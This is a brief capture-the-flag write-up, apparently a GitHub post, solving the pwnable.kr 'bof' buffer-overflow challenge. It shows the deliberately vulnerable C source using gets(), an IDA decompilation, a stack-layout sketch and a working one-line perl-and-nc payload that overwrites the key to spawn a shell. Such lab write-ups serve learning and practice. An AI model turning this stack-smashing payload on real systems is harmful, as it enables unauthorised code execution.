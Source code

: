 #BOF

<pre><code>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

</code></pre>


<pre><code>
int __cdecl func(int a1)
{
  char s; // [sp+1Ch] [bp-2Ch]@1
  int v3; // [sp+3Ch] [bp-Ch]@1

  v3 = *MK_FP(__GS__, 20);
  puts("overflow me : ");
  gets(&s);
  if ( a1 == -889275714 )
    system("/bin/sh");
  else
    puts("Nah..");
  return *MK_FP(__GS__, 20) ^ v3;
}
</code></pre>
i can found it by ida

so i supose stack structure


+---------------+ bp - 2ch
|               |
|               |
| overflow[32] |
|               |
|               |
+---------------+ bp - ch
|     v3        | 
+---------------+ bp
|    sfp(4byte) |
+---------------+
|     rtn(4byte)|
+---------------+
|     key       |
+---------------+

2ch = 44d

i overflow

44 + sfp(4byte) + rtn (4byte) + key value overwrite

so pwn code is

(perl -e 'print "a"x52 , "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000





